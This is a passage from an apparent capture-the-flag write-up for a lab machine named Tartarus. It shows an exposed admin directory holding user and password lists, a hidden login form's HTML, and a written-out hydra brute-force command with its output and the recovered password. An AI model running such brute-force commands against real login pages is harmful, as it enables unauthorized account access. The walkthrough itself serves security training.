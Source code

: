 The `/admin-dir` location hosts 2 files: `userid` and `credentials.txt`:

~~~
unknown@kali:/data/Tartarus$ curl -s http://10.10.26.177/admin-dir/ | html2text 
****** Index of /admin-dir ******
[[ICO]]       Name             Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                    -  
[[TXT]]       credentials.txt  2020-07-05 21:45  760  
[[   ]]       userid           2020-07-05 21:45   78  
===========================================================================
     Apache/2.4.18 (Ubuntu) Server at 10.10.26.177 Port 80
~~~

### sUp3r-s3cr3t

This location hosts an authentication form.

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8">
		<title>Login</title>
		<link rel="stylesheet" href="https://use.fontawesome.com/releases/v5.7.1/css/all.css">
		<link href="style.css" rel="stylesheet" type="text/css">
	</head>
	<body>
		<div class="login">
			<h1>Login</h1>
			<form action="authenticate.php" method="post">
				<label for="username">
					<i class="fas fa-user"></i>
				</label>
				<input type="text" name="username" placeholder="Username" id="username" required>
				<label for="password">
					<i class="fas fa-lock"></i>
				</label>
				<input type="password" name="password" placeholder="Password" id="password" required>
				<input type="submit" value="Login">
			</form>
		</div>
	</body>
</html>
```

Let's use hydra with the 2 files gathered so far to brute force the authentication.

~~~
unknown@kali:/data/Tartarus/files$ hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-22 07:32:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1313 login tries (l:13/p:101), ~83 tries per task
[DATA] attacking http-post-form://10.10.127.236:80/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect
[80][http-post-form] host: 10.10.127.236   login: enox   password: P@ssword1234
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-22 07:32:40
~~~

